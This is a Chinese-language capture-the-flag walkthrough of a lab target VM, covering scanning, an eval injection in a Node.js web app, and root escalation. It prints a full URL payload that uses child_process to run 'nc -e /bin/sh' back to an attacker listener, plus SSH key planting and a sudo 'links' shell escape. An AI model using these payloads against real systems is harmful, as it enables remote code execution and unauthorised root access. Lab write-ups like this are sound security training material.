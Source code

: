 ## 靶机地址

[Proton Drive](https://drive.proton.me/urls/QD1XJVR2HM#pa5ZEZ8FnfTA)

![image-20250324191844571](assets/image-20250324191844571.png)



## 信息收集

### nmap扫描

#### 准备阶段

![image-20250324191917493](assets/image-20250324191917493.png)

创建文件夹，用来存放nmap扫描结果



#### 主机探测

```
nmap -sn 192.168.1.0/24
```

![image-20250324191946646](assets/image-20250324191946646.png)

确定靶机ip：

192.168.1.9



#### 端口扫描

```
nmap --min-rate 10000 -p- -sT 192.168.1.9 -oA ./nmapscan/ports
```

![image-20250324192046572](assets/image-20250324192046572.png)

开放了：

- 22 ssh
- 80 http
- 5000 不确定



#### 提取端口信息

```
ports
```

![image-20250324192107666](assets/image-20250324192107666.png)



#### 详细结果扫描

```
nmap -sT -sC -sV -O -p 22,80,5000 192.168.1.9 -oA ./nmapscan/detail
```

![image-20250324192155922](assets/image-20250324192155922.png)

分析：

- 22 open ssh OpenSSH 9.2p1 
- Debian
- 80 http Apache httpd 2.4.57 
- 5000 http Node.js



### 80端口

#### 访问192.168.1.9

![image-20250324192303735](assets/image-20250324192303735.png)

apache主页

查看源码无内容



#### dirsearch扫描目录

```
dirsearch -u http://192.168.1.9
```

![image-20250324192358962](assets/image-20250324192358962.png)

![image-20250324192403175](assets/image-20250324192403175.png)



#### 访问images

![image-20250324192450414](assets/image-20250324192450414.png)



#### 只有一个logo图像

![image-20250324192443965](assets/image-20250324192443965.png)



#### gobuster扫描目录

```
gobuster dir -u http://192.168.1.9 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

![image-20250324192548761](assets/image-20250324192548761.png)

无内容





### 5000端口

#### 访问192.168.1.9:5000

![image-20250324192634317](assets/image-20250324192634317.png)



#### 随便输入内容

![image-20250324192645330](assets/image-20250324192645330.png)

观察url

存在name和token



#### 修改token

![image-20250324192921456](assets/image-20250324192921456.png)

![image-20250324192941343](assets/image-20250324192941343.png)

当token为字母时报错

![image-20250324193118384](assets/image-20250324193118384.png)

存在aleister用户

根据报错

```
q is not defined
```

且存在eval函数

可能存在rce



#### 反弹shell

##### 本地开启监听

```
nc -lvp 283
```

![image-20250324195329674](assets/image-20250324195329674.png)

```
http://192.168.1.9:5000/?name=123&token=require(%27child_process%27).exec(%27nc%20-e%20/bin/sh%20192.168.1.3%20283%27)
```

![image-20250324195333676](assets/image-20250324195333676.png)

成功得到shell



## 提权

### script转换终端

```
/usr/bin/script -qc /bin/bash /dev/null
```

![image-20250324195402065](assets/image-20250324195402065.png)



### 执行sudo -l

```
sudo -l
```

![image-20250324195424455](assets/image-20250324195424455.png)

无密码执行links

（我这里执行links会出现乱码，因此我尝试ssh登录）



### ssh登录

首先进入aleister家目录下

创建.ssh文件夹

任何将自己的公钥文件拷贝到当前文件夹

![image-20250324195730457](assets/image-20250324195730457.png)

![image-20250324195624134](assets/image-20250324195624134.png)

![image-20250324195713830](assets/image-20250324195713830.png)

![image-20250324195740212](assets/image-20250324195740212.png)



然后ssh登录

```
ssh aleister@192.168.1.9 -i id_rsa
```

![image-20250324195806728](assets/image-20250324195806728.png)

### 重新执行links

```
sudo links
```

![image-20250324195836488](assets/image-20250324195836488.png)

按esc

![image-20250324195845696](assets/image-20250324195845696.png)

选中File

![image-20250324195859715](assets/image-20250324195859715.png)

选中OS shell

成功提权

![image-20250324195926375](assets/image-20250324195926375.png)



### 成功得到flag

![image-20250324195939378](assets/image-20250324195939378.png)

